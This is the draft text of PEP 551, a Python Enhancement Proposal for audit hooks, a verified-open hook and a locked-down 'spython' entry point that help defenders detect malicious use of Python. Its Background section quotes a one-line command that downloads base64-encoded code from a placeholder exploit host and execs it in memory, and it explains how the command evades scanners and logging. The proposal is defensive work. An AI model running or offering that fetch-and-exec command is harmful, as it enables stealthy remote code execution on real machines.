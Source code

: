 PEP: 551
Title: Security transparency in the Python runtime
Version: $Revision$
Last-Modified: $Date$
Author: Steve Dower <steve.dower@microsoft.com>
Status: Draft
Type: Standards Track
Content-Type: text/x-rst
Created: 23-Aug-2017
Python-Version: 3.7
Post-History:

Abstract
========

This PEP describes additions to the Python API and specific behaviors for the
CPython implementation that make actions taken by the Python runtime visible to
security and auditing tools. The goals in order of increasing importance are to
prevent malicious use of Python, to detect and report on malicious use, and most
importantly to detect attempts to bypass detection. Most of the responsibility
for implementation is required from users, who must customize and build Python
for their own environment.

We propose two small sets of public APIs to enable users to reliably build their
copy of Python without having to modify the core runtime, protecting future
maintainability. We also discuss recommendations for users to help them develop
and configure their copy of Python.

Background
==========

Software vulnerabilities are generally seen as bugs that enable remote or
elevated code execution. However, in our modern connected world, the more
dangerous vulnerabilities are those that enable advanced persistent threats
(APTs). APTs are achieved when an attacker is able to penetrate a network,
establish their software on one or more machines, and over time extract data or
intelligence. Some APTs may make themselves known by maliciously damaging data
(e.g., `WannaCrypt <https://www.microsoft.com/wdsi/threats/malware-encyclopedia-description?Name=Ransom:Win32/WannaCrypt>`_)
or hardware (e.g., `Stuxnet <https://www.microsoft.com/wdsi/threats/malware-encyclopedia-description?name=Win32/Stuxnet>`_).
Most attempt to hide their existence and avoid detection. APTs often use a
combination of traditional vulnerabilities, social engineering, phishing (or
spear-phishing), thorough network analysis, and an understanding of
misconfigured environments to establish themselves and do their work.

The first infected machines may not be the final target and may not require
special privileges. For example, an APT that is established as a
non-administrative user on a developer’s machine may have the ability to spread
to production machines through normal deployment channels. It is common for APTs
to persist on as many machines as possible, with sheer weight of presence making
them difficult to remove completely.

Whether an attacker is seeking to cause direct harm or hide their tracks, the
biggest barrier to detection is a lack of insight. System administrators with
large networks rely on distributed logs to understand what their machines are
doing, but logs are often filtered to show only error conditions. APTs that are
attempting to avoid detection will rarely generate errors or abnormal events.
Reviewing normal operation logs involves a significant amount of effort, though
work is underway by a number of companies to enable automatic anomaly detection
within operational logs. The tools preferred by attackers are ones that are
already installed on the target machines, since log messages from these tools
are often expected and ignored in normal use.

At this point, we are not going to spend further time discussing the existence
of APTs or methods and mitigations that do not apply to this PEP. For further
information about the field, we recommend reading or watching the resources
listed under `Further Reading`_.

Python is a particularly interesting tool for attackers due to its prevalence on
server and developer machines, its ability to execute arbitrary code provided as
data (as opposed to native binaries), and its complete lack of internal logging.
This allows attackers to download, decrypt, and execute malicious code with a
single command::

    python -c "import urllib.request, base64; exec(base64.b64decode(urllib.request.urlopen('http://my-exploit/py.b64')).decode())"

This command currently bypasses most anti-malware scanners that rely on
recognizable code being read through a network connection or being written to
disk (base64 is often sufficient to bypass these checks). It also bypasses
protections such as file access control lists or permissions (no file access
occurs), approved application lists (assuming Python has been approved for other
uses), and automated auditing or logging (assuming Python is allowed to access
the internet or access another machine on the local network from which to obtain
its payload).

General consensus among the security community is that totally preventing
attacks is infeasible and defenders should assume that they will often detect
attacks only after they have succeeded. This is known as the "assume breach"
mindset. [1]_ In this scenario, protections such as sandboxing and input
validation have already failed, and the important task is detection, tracking,
and eventual removal of the malicious code. To this end, the primary feature
required from Python is security transparency: the ability to see what
operations the Python runtime is performing that may indicate anomalous or
malicious use. Preventing such use is valuable, but secondary to the need to
know that it is occurring.

To summarise the goals in order of increasing importance:

* preventing malicious use is valuable
* detecting malicious use is important
* detecting attempts to bypass detection is critical

One example of a scripting engine that has addressed these challenges is
PowerShell, which has recently been enhanced towards similar goals of
transparency and prevention. [2]_

Generally, application and system configuration will determine which events
within a scripting engine are worth logging. However, given the value of many
logs events are not recognized until after an attack is detected, it is
important to capture as much as possible and filter views rather than filtering
at the source (see the No Easy Breach video from above). Events that are always
of interest include attempts to bypass event logging, attempts to load and
execute code that is not correctly signed or access-controlled, use of uncommon
operating system functionality such as debugging or inter-process inspection
tools, most network access and DNS resolution, and attempts to create and hide
files or configuration settings on the local machine.

To summarize, defenders have a need to audit specific uses of Python in order to
detect abnormal or malicious usage. Currently, the Python runtime does not
provide any ability to do this, which (anecdotally) has led to organizations
switching to other languages. The aim of this PEP is to enable system
administrators to deploy a security transparent copy of Python that can
integrate with their existing auditing and protection systems.

On Windows, some specific features that may be enabled by this include:

* Script Block Logging [3]_
* DeviceGuard [4]_
* AMSI [5]_
* Persistent Zone Identifiers [6]_
* Event tracing (which includes event forwarding) [7]_

On Linux, some specific features that may be integrated are:

* gnupg [8]_
* sd_journal [9]_
* OpenBSM [10]_
* syslog [11]_
* check execute bit on imported modules


On macOS, some features that may be used with the expanded APIs are:

* OpenBSM [10]_
* syslog [11]_

Overall, the ability to enable these platform-specific features on production
machines is highly appealing to system administrators and will make Python a
more trustworthy dependency for application developers.


Overview of Changes
===================

True security transparency is not fully achievable by Python in isolation. The
runtime can log as many events as it likes, but unless the logs are reviewed and
analyzed there is no value. Python may impose restrictions in the name of
security, but usability may suffer. Different platforms and environments will
require different implementations of certain security features, and
organizations with the resources to fully customize their runtime should be
encouraged to do so.

The aim of these changes is to enable system administrators to integrate Python
into their existing security systems, without dictating what those systems look
like or how they should behave. We propose two API changes to enable this: an
Event Log Hook and Verified Open Hook. Both are not set by default, and both
require modifying the appropriate entry point to enable any functionality. For
the purposes of validation and example, we propose a new spython/spython.exe
entry point program that enables some basic functionality using these hooks.
However, the expectation is that security-conscious organizations will create
their own entry points to meet their needs.

Event Log Hook
--------------

In order to achieve security transparency, an API is required to raise messages
from within certain operations. These operations are typically deep within the
Python runtime or standard library, such as dynamic code compilation, module
imports, DNS resolution, or use of certain modules such as ``ctypes``.

The new APIs required for log hooks are:

.. code:: python

   # Add a logging hook
   sys.addloghook(hook: Callable[str, tuple]) -> None
   int PySys_AddLogHook(int (*hook)(const char *event, PyObject *args));

   # Raise an event with all logging hooks
   sys.loghook(str, *args) -> None
   int PySys_LogHook(const char *event, PyObject *args);

   # Internal API used during Py_Finalize() - not publicly accessible
   void _Py_ClearLogHooks(void);

Hooks are added by calling ``PySys_AddLogHook()`` from C at any time, including
before ``Py_Initialize()``, or by calling ``sys.addloghook()`` from Python code.
Hooks are never removed or replaced, and existing hooks have an opportunity to
refuse to allow new hooks to be added (adding a logging hook is logged, and so
preexisting hooks can raise an exception to block the new addition).

When events of interest are occurring, code can either call ``PySys_LogHook()``
from C (while the GIL is held) or ``sys.loghook()``. The string argument is the
name of the event, and the tuple contains arguments. A given event name should
have a fixed schema for arguments, and both arguments are considered a public
API (for a given x.y version of Python), and thus should only change between
feature releases with updated documentation.

When an event is logged, each hook is called in the order it was added with the
event name and tuple. If any hook returns with an exception set, later hooks are
ignored and *in general* the Python runtime should terminate. This is
intentional to allow hook implementations to decide how to respond to any
particular event. The typical responses will be to log the event, abort the
operation with an exception, or to immediately terminate the process with an
operating system exit call.

When an event is logged but no hooks have been set, the ``loghook()`` function
should include minimal overhead. Ideally, each argument is a reference to
existing data rather than a value calculated just for the logging call.

As hooks may be Python objects, they need to be freed during ``Py_Finalize()``.
To do this, we add an internal API ``_Py_ClearLogHooks()`` that releases any
``PyObject*`` hooks that are held, as well as any heap memory used. This is an
internal function with no public export, but it passes an event to all existing
hooks to ensure that unexpected calls are logged.

See `Log Hook Locations`_ for proposed log hook points and schemas, and the
`Recommendations`_ section for discussion on appropriate responses.

Verified Open Hook
------------------

Most operating systems have a mechanism to distinguish between files that can be
executed and those that can not. For example, this may be an execute bit in the
permissions field, or a verified hash of the file contents to detect potential
code tampering. These are an important security mechanism for preventing
execution of data or code that is not approved for a given environment.
Currently, Python has no way to integrate with these when launching scripts or
importing modules.

The new public API for the verified open hook is:

.. code:: python

   # Set the handler
   int Py_SetOpenForExecuteHandler(PyObject *(*handler)(const char *narrow, const wchar_t *wide))

   # Open a file using the handler
   os.open_for_exec(pathlike)

The ``os.open_for_exec()`` function is a drop-in replacement for
``open(pathlike, 'rb')``. Its default behaviour is to open a file for raw,
binary access - any more restrictive behaviour requires the use of a custom
handler. (Aside: since ``importlib`` requires access to this function before the
``os`` module has been imported, it will be available on the ``nt``/``posix``
modules, but the intent is that other users will access it through the ``os``
module.)

A custom handler may be set by calling ``Py_SetOpenForExecuteHandler()`` from C
at any time, including before ``Py_Initialize()``. When ``open_for_exec()`` is
called with a handler set, the handler will be passed the processed narrow or
wide path, depending on platform, and its return value will be returned
directly. The returned object should be an open file-like object that supports
reading raw bytes. This is explicitly intended to allow a ``BytesIO`` instance
if the open handler has already had to read the file into memory in order to
perform whatever verification is necessary to determine whether the content is
permitted to be executed.

Note that these handlers can import and call the ``_io.open()`` function on
CPython without triggering themselves.

If the handler determines that the file is not suitable for execution, it should
raise an exception of its choice, as well as performing any other logging or
notifications.

All import and execution functionality involving code from a file will be
changed to use ``open_for_exec()`` unconditionally. It is important to note that
calls to ``compile()``, ``exec()`` and ``eval()`` do not go through this
function - a log hook that includes the code from these calls will be added and
is the best opportunity to validate code that is read from the file. Given the
current decoupling between import and execution in Python, most imported code
will go through both ``open_for_exec()`` and the log hook for ``compile``, and
so care should be taken to avoid repeating verification steps.

API Availability
----------------

While all the functions added here are considered public and stable API, the
behavior of the functions is implementation specific. The descriptions here
refer to the CPython implementation, and while other implementations should
provide the functions, there is no requirement that they behave the same.

For example, ``sys.addloghook()`` and ``sys.loghook()`` should exist but may do
nothing. This allows code to make calls to ``sys.loghook()`` without having to
test for existence, but it should not assume that its call will have any effect.
(Including existence tests in security-critical code allows another vector to
bypass logging, so it is preferable that the function always exist.)

``os.open_for_exec()`` should at a minimum always return ``_io.open(pathlike,
'rb')``. Code using the function should make no further assumptions about what
may occur, and implementations other than CPython are not required to let
developers override the behavior of this function with a hook.


Log Hook Locations
==================

Calls to ``sys.loghook()`` or ``PySys_LogHook()`` will be added to the following
operations with the schema in Table 1. Unless otherwise specified, the ability
for log hooks to abort any listed operation should be considered part of the
rationale for including the hook.

.. csv-table:: Table 1: Log Hooks
   :header: "API Function", "Event Name", "Arguments", "Rationale"
   :widths: 2, 2, 3, 6
   
   ``PySys_AddLogHook``, ``sys.addloghook``, "", "Detect when new log hooks are
   being added."
   ``_PySys_ClearLogHooks``, ``sys._clearloghooks``, "", "Notifies hooks they
   are being cleaned up, mainly in case the event is triggered unexpectedly.
   This event cannot be aborted."
   ``Py_SetOpenForExecuteHandler``, ``setopenforexecutehandler``, "", "Detects
   any attempt to set the ``open_for_execute`` handler."
   "``compile``, ``exec``, ``eval``, ``PyAst_CompileString``", ``compile``, "
   ``(code, filename_or_none)``", "Detect dynamic code compilation. Note that
   this will also be called for regular imports of source code, including those
   that used ``open_for_exec``."
   ``import``, ``import``, "``(module, filename, sys.path, sys.meta_path,
   sys.path_hooks)``", "Detect when modules are imported. This is raised before
   the module name is resolved to a file. All arguments other than the module
   name may be ``None`` if they are not used or available."
   "``_ctypes.dlopen``, ``_ctypes.LoadLibrary``", ``ctypes.dlopen``, "
   ``(module_or_path,)``", "Detect when native modules are used."
   ``_ctypes._FuncPtr``, ``ctypes.dlsym``, "``(lib_object, name)``", "Collect
   information about specific symbols retrieved from native modules."
   ``_ctypes._CData``, ``ctypes.cdata``, "``(ptr_as_int,)``", "Detect when code
   is accessing arbitrary memory using ``ctypes``"
   ``id``, ``id``, "``(id_as_int,)``", "Detect when code is accessing the id of
   objects, which in CPython reveals information about memory layout."
   ``sys._getframe``, ``sys._getframe``, "``(frame_object,)``", "Detect when
   code is accessing frames directly"
   ``sys._current_frames``, ``sys._current_frames``, "", "Detect when code is
   accessing frames directly"
   ``PyEval_SetProfile``, ``sys.setprofile``, "", "Detect when code is injecting
   trace functions. Because of the implementation, exceptions raised from the
   hook will abort the operation, but will not be raised in Python code. Note
   that ``threading.setprofile`` eventually calls this function, so the event
   will be logged for each thread."
   ``PyEval_SetTrace``, ``sys.settrace``, "", "Detect when code is injecting
   trace functions. Because of the implementation, exceptions raised from the
   hook will abort the operation, but will not be raised in Python code. Note
   that ``threading.settrace`` eventually calls this function, so the event
   will be logged for each thread."
   ``_PyEval_SetAsyncGenFirstiter``, ``sys.set_async_gen_firstiter``, "", "
   Detect changes to async generator hooks."
   ``_PyEval_SetAsyncGenFinalizer``, ``sys.set_async_gen_finalizer``, "", "
   Detect changes to async generator hooks."
   ``_PyEval_SetCoroutineWrapper``, ``sys.set_coroutine_wrapper``, "", "Detect
   changes to the coroutine wrapper."
   ``Py_SetRecursionLimit``, ``sys.setrecursionlimit``, "``(new_limit,)``", "
   Detect changes to the recursion limit."
   ``_PyEval_SetSwitchInterval``, ``sys.setswitchinterval``, "``(interval_us,)``
   ", "Detect changes to the switching interval."
   "``socket.bind``, ``socket.connect``, ``socket.connect_ex``,
   ``socket.sendmsg``, ``socket.sendto``", ``socket.address``, "``(address,)``
   ", "Detect access to network resources. The address is unmodified from the
   original call."
   ``socket.__init__``, "socket()", "``(family, type, proto)``", "Detect
   creation of sockets. The arguments will be int values."
   ``socket.gethostname``, ``socket.gethostname``, "", "Detect attempts to
   retrieve the current host name."
   ``socket.sethostname``, ``socket.sethostname``, "``(name,)``", "Detect
   attempts to change the current host name. The name argument is passed as a
   bytes object."
   "``socket.gethostbyname``, ``socket.gethostbyname_ex``", "
   ``socket.gethostbyname``", "``(name,)``", "Detect host name resolution. The
   name argument is a str or bytes object."
   ``socket.gethostbyaddr``, ``socket.gethostbyaddr``, "``(address,)``", "Detect
   host resolution. The address argument is a str or bytes object."
   ``socket.getservbyname``, ``socket.getservbyname``, "``(name, protocol)``", "
   Detect service resolution. The arguments are str objects."
   ``socket.getservbyport``, ``socket.getservbyport``, "``(port, protocol)``", "
   Detect service resolution. The port argument is an int and protocol is a
   str."

TODO - more hooks in ``_socket``, ``_ssl``, others?


SPython Entry Point
===================

A new entry point binary will be added, called ``spython.exe`` on Windows and
``spythonX.Y`` on other platforms. This entry point is intended primarily as an
example, as we expect most users of this functionality to implement their own
entry point and hooks (see `Recommendations`_). It will also be used for tests.

Source builds will create ``spython`` by default, but distributors may choose
whether to include ``spython`` in their pre-built packages. The python.org
managed binary distributions will not include ``spython``.

**Do not accept most command-line arguments**

The ``spython`` entry point requires a script file be passed as the first
argument, and does not allow any options. This prevents arbitrary code execution
from in-memory data or non-script files (such as pickles, which can be executed
using ``-m pickle <path>``.

Options ``-B`` (do not write bytecode), ``-E`` (ignore environment variables)
and ``-s`` (no user site) are assumed.

If a file with the same full path as the process with a ``._pth`` suffix
(``spython._pth`` on Windows, ``spythonX.Y._pth`` on Linux) exists, it will be
used to initialize ``sys.path`` following the rules currently described `for
Windows <https://docs.python.org/3/using/windows.html#finding-modules>`_.

**Log security events to a file**

Before initialization, ``spython`` will set a log hook that writes events to a
local file. By default, this file is the full path of the process with a
``.log`` suffix, but may be overridden with the ``SPYTHONLOG`` environment
variable (despite such overrides being explicitly discouraged in
`Recommendations`_).

The log hook will also abort all ``addloghook`` events, preventing any other
hooks from being added.

On Windows, code from ``compile`` events will submitted to AMSI [5]_ and if it
fails to validate, the compile event will be aborted. This can be tested by
calling ``compile()`` or ``eval()`` on the contents of the `EICAR test file
<http://www.eicar.org/86-0-Intended-use.html>`_.

**Restrict importable modules**

Also before initialization, ``spython`` will set an open-for-execute hook that
validates all files opened with ``os.open_for_exec``. This implementation will
require all files to have a ``.py`` suffix (thereby blocking the use of cached
bytecode), and will raise a custom log message ``spython.open_for_exec``
containing ``(filename, True_if_allowed)``.

On Windows, the hook will also open the file with flags that prevent any other
process from opening it with write access, which allows the hook to perform
additional validation on the contents with confidence that it will not be
modified between the check and use. Compilation will later trigger a ``compile``
event, so there is no need to read the contents now for AMSI, but other
validation mechanisms such as DeviceGuard [4]_ should be performed here.


Performance Impact
==================

**TODO**

Full impact analysis still requires investigation. Preliminary testing shows
that calling ``sys.loghook`` with no hooks added does not significantly affect
any existing benchmarks, though targeted microbenchmarks can observe an impact.

Performance impact using ``spython`` or with hooks added are not of interest
here, since this is considered opt-in functionality.


Recommendations
===============

Specific recommendations are difficult to make, as the ideal configuration for any environment will depend on the user's ability to manage, monitor, and respond to activity on their own network. However, many of the proposals here do not appear to be of value without deeper illustration. This section provides recommendations using the terms **should** (or **should not**), indicating that we consider it dangerous to ignore the advice, and **may**, indicating that for the advice ought to be considered for high value systems. The term **sysadmins** refers to whoever is responsible for deploying Python throughout your network, though different organizations may have different titles for the relevant person.

Sysadmins **should** build their own entry point, likely starting from ``spython``, and directly interface with the security systems available in their environment. The more tightly integrated, the less likely a vulnerability will be found allowing an attacker to bypass those systems. In particular, the entry point **should not** obtain any settings from the current environment, such as environment variables, unless those settings are otherwise protected from modification.

The default ``python`` entry point **should not** be deployed to production machines, but could be given to developers to use and test Python on non-production machines. Sysadmins **may** consider deploying a less restrictive version of their entry point to developer machines, since any system connected to your network is a potential target.

Python deployments **should** be made read-only using any available platform functionality after deployment and during use.

On platforms that support it, sysadmins **should** include signatures for every file in a Python deployment, ideally verified using a private certificate. For example, Windows supports embedding signatures in executable files and using catalogs for others, and can use DeviceGuard [4]_ to validate signatures either automatically or using an ``open_for_exec`` hook.

Sysadmins **should** collect as many logged events as possible, and **should** copy them off of local machines frequently. Even if logs are not being constantly monitored for suspicious activity, once an attack is detected it is too late to enable logging. Log hooks **should not** attempt to preemptively filter events, as even benign events are useful when analyzing the progress of an attack. (Watch the "No Easy Breach" video under `Further Reading`_ for a deeper look at this side of things.)

Log hooks **should** write events to logs before attempting to abort. As discussed earlier, it is more important to record malicious actions than to prevent them. Very few actions should be aborted, as most will occur during normal use. Sysadmins **may** audit their Python code and abort operations that are known to never be used deliberately.

On production machines, the first log hook **should** be set in C code before ``Py_Initialize`` is called, and that hook **should** unconditionally abort the ``sys.addloghook`` event. The Python interface is mainly useful for testing.

On production machines, a non-validating ``open_for_exec`` hook **may** be set in C code before ``Py_Initialize`` is called. This prevents later code from overriding the hook, however, logging the ``setopenforexecutehandler`` event is useful since no code should ever need to call it. Using at least the sample ``open_for_exec`` hook implementation from ``spython`` is recommended.

[TODO: more good advice; less bad advice]

Further Reading
===============


**Redefining Malware: When Old Terms Pose New Threats**
    By Aviv Raff for SecurityWeek, 29th January 2014

    This article, and those linked by it, are high-level summaries of the rise of
    APTs and the differences from "traditional" malware.

    `<http://www.securityweek.com/redefining-malware-when-old-terms-pose-new-threats>`_

**Anatomy of a Cyber Attack**
    By FireEye, accessed 23rd August 2017

    A summary of the techniques used by APTs, and links to a number of relevant
    whitepapers.

    `<https://www.fireeye.com/current-threats/anatomy-of-a-cyber-attack.html>`_

**Automated Traffic Log Analysis: A Must Have for Advanced Threat Protection**
    By Aviv Raff for SecurityWeek, 8th May 2014

    High-level summary of the value of detailed logging and automatic analysis.

    `<http://www.securityweek.com/automated-traffic-log-analysis-must-have-advanced-threat-protection>`_

**No Easy Breach: Challenges and Lessons Learned from an Epic Investigation**
    Video presented by Matt Dunwoody and Nick Carr for Mandiant at SchmooCon 2016

    Detailed walkthrough of the processes and tools used in detecting and removing
    an APT.

    `<https://archive.org/details/No_Easy_Breach>`_

**Disrupting Nation State Hackers**
    Video presented by Rob Joyce for the NSA at USENIX Enigma 2016

    Good security practices, capabilities and recommendations from the chief of
    NSA's Tailored Access Operation.

    `<https://www.youtube.com/watch?v=bDJb8WOJYdA>`_

References
==========

.. [1] Assume Breach Mindset, `<http://asian-power.com/node/11144>`_

.. [2] PowerShell Loves the Blue Team, also known as Scripting Security and
   Protection Advances in Windows 10, `<https://blogs.msdn.microsoft.com/powershell/2015/06/09/powershell-the-blue-team/>`_

.. [3] `<https://www.fireeye.com/blog/threat-research/2016/02/greater_visibilityt.html>`_

.. [4] `<https://aka.ms/deviceguard>`_

.. [5] AMSI, `<https://msdn.microsoft.com/en-us/library/windows/desktop/dn889587(v=vs.85).aspx>`_

.. [6] Persistent Zone Identifiers, `<https://msdn.microsoft.com/en-us/library/ms537021(v=vs.85).aspx>`_

.. [7] Event tracing, `<https://msdn.microsoft.com/en-us/library/aa363668(v=vs.85).aspx>`_

.. [8] `<https://www.gnupg.org/>`_

.. [9] `<https://www.systutorials.com/docs/linux/man/3-sd_journal_send/>`_

.. [10] `<http://www.trustedbsd.org/openbsm.html>`_

.. [11] `<https://linux.die.net/man/3/syslog>`_

Acknowledgments
===============

Thanks to all the people from Microsoft involved in helping make the Python
runtime safer for production use, and especially to James Powell for doing much
of the initial research, analysis and implementation, Lee Holmes for invaluable
insights into the info-sec field and PowerShell's responses, and Brett Cannon
for the grounding discussions.

Copyright
=========

Copyright (c) 2017 by Microsoft Corporation. This material may be distributed
only subject to the terms and conditions set forth in the Open Publication
License, v1.0 or later (the latest version is presently available at
http://www.opencontent.org/openpub/).
